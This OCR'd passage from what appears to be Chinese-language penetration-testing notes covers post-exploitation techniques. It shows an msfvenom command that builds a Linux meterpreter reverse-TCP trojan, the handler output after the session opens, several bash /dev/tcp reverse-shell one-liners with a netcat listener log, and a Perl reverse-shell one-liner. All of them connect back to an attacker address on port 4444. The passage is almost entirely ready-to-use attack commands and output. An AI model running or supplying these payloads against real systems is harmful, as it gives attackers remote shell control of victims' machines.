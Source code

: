 #### 6. msf 木马

  查看内核版本

  ```bash
  root@itfd-virtual-machine:~/.ssh# uname -srm
  Linux 5.4.0-42-generic x86_64
  ```

  制作木马：

  ```bash
  msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.2.131 LPORT=4444 -f elf > shell.elf
  
  ```

  移动到目标及机，在msf 中监听响应端口后，赋予权限并执行

  ```bash
  ./shell.elf 
  # msf 中
  msf5 exploit(multi/handler) > exploit 
  
  [*] Started reverse TCP handler on 192.168.2.131:4444 
  [*] Sending stage (3012516 bytes) to 192.168.2.136
  [*] Meterpreter session 1 opened (192.168.2.131:4444 -> 192.168.2.136:49872) at 2020-10-22 20:13:27 +0800
  
  meterpreter > ifconfig
  ```

  #### 7. bash 反弹shell

  ```bash
  # 目标机：
  bash -i >& /dev/tcp/192.168.2.131/4444 0>&1
  0<&196;exec 196<>/dev/tcp/192.168.2.131/4444; sh <&196 >&196 2>&196
  /bin/bash  -i > /dev/tcp/192.168.2.131/4444 0<&1 2>&1
  
  # kali 监听 
  root@localhost:~/.ssh# nc -lvp 4444
  listening on [any] 4444 ...
  192.168.2.136: inverse host lookup failed: Unknown host
  connect to [192.168.2.131] from (UNKNOWN) [192.168.2.136] 49888
  
  ```

  #### 8. perl 反弹shell

  ```bash
  perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.2.131:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
  
  # kali上
  nc -lvp 4444
  ```
